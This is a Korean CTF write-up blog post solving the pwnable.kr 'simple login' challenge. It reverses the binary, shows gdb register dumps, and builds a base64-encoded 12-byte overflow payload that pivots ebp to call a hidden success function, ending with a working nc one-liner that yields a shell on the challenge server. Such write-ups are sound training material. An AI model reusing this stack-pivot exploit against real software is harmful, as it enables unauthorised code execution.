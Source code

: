 ```yaml
---
title: Pwnable KR - simple login
slug: pwnable-kr-simple-login
date: 2016-05-18 19:40:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR simple login](pwnable-kr-simple-login.png)

50점 문제


## 풀이

아이다로 열어서 main 함수를 보면

![main in IDA](main-in-ida.png)

Base64Decode 함수를 거쳐서 그 글자가 12글자를 넘지 않았을 때, memcpy 함수와 auth 함수를 실행할 수 있다.

auth 함수를 보면

![auth in IDA](auth-in-ida.png)

위에 calc_md5 함수가 있고 f87cd601aa7fedca99018a8be88eda34가 있으니 base64decode과 calc_md5를 거친 문자열이 저 해쉬값과 같게 하면 문제가 풀릴 것 같다.

```sh
$ ./login
Authenticate : 1
hash : 9b8c895608d18294f61b60b8240d240d
$ ./login
Authenticate : 1
hash : cdf692a9f758d869b6c9aeb2d8b58934
$ ./login
Authenticate : 1
hash : 4ed12d9a2e855dec61a9abe23d16493a
$
```

낚일뻔

마지막으로 correct 함수를 보면

![correct in IDA](correct-in-ida.png)

offset input에 있는 값이 0xdeadbeef면 문제를 풀 수 있다.

```sh
$ ./login
Authenticate : QUFBQUJCQkJDQ0ND
hash : 125277e0a9ca4432b398e73ee31e0a22
Segmentation fault
$
```

input의 크기가 12바이트여서 12바이트에 맞게 AAAABBBBCCCC를 인코드한 문자열을 입력하면 segmentation fault가 뜬다.

```x86asm
(gdb) r
Starting program: /root/Desktop/login
Authenticate : QUFBQUJCQkJDQ0ND
hash : 2c840c4e550f24ed72f4a4ce74a78371

Program received signal SEGSEGV, Segmentation fault.
0x08049424 in main ()
(gdb) i r
eax            0x0      0
ecx            0x32     50
edx            0x80da684        135112324
ebx            0x80481d0        134513104
esp            0xffffd450       0xffffd450
ebp            0x43434343       0x43434343
esi            0x0      0
edi            0x811b00c        135376908
eip            0x8049424        0x8049424 <main+279>
eflags         0x210297 [ CF PF AF SF IF RF ID ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)
```

확인해보면 12바이트 중 마지막 4바이트의 값대로 ebp가 변조되어있다. 처음 4바이트 값은 0xdeadbeef로 놔둬야하고, 가운데 4바이트가 남게 되는데 여기에는 correct 함수의 주소를, 마지막 4바이트는 바로 가운데 4바이트가 있는 주소를 가리키도록 하면 된다.

12바이트가 있는 input의 주소는 0x0811eb40이고, correct 함수의 주소는 0x0804925f다. 주의해야할 점이 가운데 4바이트의 주소가 0x0811eb44라고 해서, ebp 값을 0x0811eb44로 변조하면 0x0811eb40이 가리키는 주소, 즉 자신이 있는 주소로 점프하게 된다.

```x86asm
(gdb) r
Starting program: /root/Desktop/login
Authenticate : 776t3l_SBAhE6xEI
hash : 2c840c4e550f243d72f4a4ce74a78371

Program received signal SEGSEGV, Segmentation fault.
0x0811eb44 in input ()
(gdb)
```

이렇게 input 영역을 실행하려고 하다가 segmentation fault를 뿜는다.

풀이

```sh
(python -c "import base64;print base64.encodestring('\xef\xbe\xad\xde'+'\x5f\x92\x04\x08'+'\x40\xeb\x11\x08')"; cat) | nc pwnable.kr 9003
```

```sh
$ (python -c "import base64;print base64.encodestring('\xef\xbe\xad\xde'+'\x5f\x92\x04\x08'+'\x40\xeb\x11\x08')"; cat) | nc pwnable.kr 9003
Authenticate : hash : 00cb6656e633c565de02446c0b6a9601
Congratulation! you ar good
id
uid=1009(login) gid=1009(login) groups=1009(login)
```
